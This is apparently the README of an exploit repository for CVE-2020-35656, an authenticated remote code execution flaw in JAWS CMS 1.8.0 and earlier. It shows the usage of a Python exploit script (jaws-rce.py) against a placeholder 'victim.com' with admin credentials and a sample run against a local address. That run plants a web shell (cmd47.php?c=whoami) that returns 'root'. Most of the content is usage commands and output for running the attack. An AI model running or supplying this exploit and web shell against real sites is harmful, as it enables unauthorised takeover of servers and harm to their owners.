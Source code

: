 # Jaws-CMS-RCE CVE-2020-35656
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin



Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami



GIF89a

root




